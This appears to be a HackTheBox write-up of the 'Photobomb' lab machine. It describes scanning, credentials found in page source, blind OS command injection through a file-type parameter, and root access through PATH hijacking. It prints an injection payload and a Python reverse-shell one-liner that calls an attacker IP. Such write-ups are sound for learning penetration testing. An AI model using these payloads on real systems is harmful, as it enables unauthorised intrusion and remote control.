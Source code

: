 ```yaml
---
date: 2023-02-10 17:32:03
layout: post
title: HackTheBox - Photobomb

description: 
image: /assets/img/htb/photobomb/info.png
optimized_image: /assets/img/htb/photobomb/info.png
category: blog
tags:
  - hackthebox
  - Photobomb
  - web vulnerabilites
  - htb
  - command injection
  - basics privilege escalation
---
```


# Machine Information
This machine is from easy level worth 20 points.

IP: `10.10.11.182`

# Scanning and Enumeration
First thing add ip to to `/etc/hosts` file to allow any dns records.

```bash
nano /etc/hosts
```
Use `nano` to open this file and put ip.

![image](/assets/img/htb/photobomb/nano1.png)

Naturally, we will use `nmap` to identify open ports and collect some information about that machine.

```bash
nmap -A -T5 -p- 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-03 00:57 EST
Warning: 10.10.11.182 giving up on port because retransmission cap hit (2).
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.11.182
Host is up (0.094s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   92.39 ms 10.10.14.1
2   91.01 ms 10.10.11.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 372.55 seconds
```

After scanning, I found ports 22 and 80 open, so I'll go to Website and dig deeper.

![image](/assets/img/htb/photobomb/website.png)

When you press on `Click here`, a window pops up asking you to enter your username and password.

I'm trying to bypass that popup with basic auth techniques like sql injection, default credentials (admin: admin), nosql, etc.. but all of them didn't work.

After that, I thought that I would see a source code, and I actually found the credentials.

![image](/assets/img/htb/photobomb/source.png)

Use this credentials `pH0t0:b0Mb!` to bypass that popup.

![image](/assets/img/htb/photobomb/pass.png)

After logging in, I only found a download function, and now I'm going to test it.

![image](/assets/img/htb/photobomb/download.png)

Capture the request by burp, Send to repeater and Play in parameters.

The first thing that came to my mind after seeing a request is to try to test the `OS Command Injection` vulnerability in all parameters to find out which parameter is at vulnerable.

The vulnerable parameter is the file type you specified with that payload `; ping -c 10 10.10.11.182` and the result was waiting for the response for about 10 millis to know that this parameter was vulnerable to a `blind OS Command Injection` vulnerability.

I've tried using a number of characters as command separators like `| , || , &` , but only those that have succeeded `;` .

![image](/assets/img/htb/photobomb/burp.png)

Use command injection to get reverse shell.

I tried several payloads but only the [python-reverse-shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) worked.

```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Put that payload in that vulnerable parameter.

![image](/assets/img/htb/photobomb/payload.png)

Listen by netcat.

![image](/assets/img/htb/photobomb/nc.png)

Bingoo, I got the user flag.

![image](/assets/img/htb/photobomb/user.png)

# Privilege Escalation

Use `sudo -l` this option will print out the commands allowed (and forbidden) the user on the current host. 

![image](/assets/img/htb/photobomb/sudo.png)

This shows the current user can use this script `/opt/cleanup.sh` as root.

See the script to exploit it.

![image](/assets/img/htb/photobomb/script.png)

 The last line of the above script it is finding the filetype and it is executing it with root permission.
 
 To exploit it do that call the `find` binary using this relative path instead of the absolute path. By creating a malicious `find`, and modifying the path to include the current working directory, I should be able to abuse this misconfiguration, and escalate our privileges to root.
 
And that is known as a name [PATH-Variable-manipulation](https://systemweakness.com/linux-privilege-escalation-using-path-variable-manipulation-64325ab05469).

Add the current working directory to PATH.

![image](/assets/img/htb/photobomb/path.png)

Create the malicious `find` binary and make it executable.

![image](/assets/img/htb/photobomb/find.png)

Now, Run the script `opt/cleanup.sh`. 

Great, I become root.

![image](/assets/img/htb/photobomb/who.png)

Bingoo, I got the root flag.

![image](/assets/img/htb/photobomb/root.png)

